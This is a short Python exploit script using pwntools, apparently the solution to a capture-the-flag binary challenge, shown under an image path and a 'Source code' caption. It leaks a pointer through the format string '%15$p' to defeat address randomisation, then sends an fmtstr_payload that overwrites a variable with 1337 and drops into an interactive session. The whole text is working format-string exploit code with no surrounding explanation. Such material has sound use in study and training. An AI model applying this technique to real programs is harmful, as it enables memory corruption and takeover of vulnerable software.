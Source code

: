 ```python
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()


offsets = 35
main_offset = elf.sym['main']
io.sendline('%15$p')
main_address = int(io.recvline(),16)
log.info(hex(main_address))
log.info(hex(main_offset))
base_addr = main_address - main_offset

change_me = base_addr + 0x401c
log.info(hex(change_me))

payload = fmtstr_payload(6, {change_me : 1337})

io.sendline(payload)
# print(len(payload))

io.interactive()

```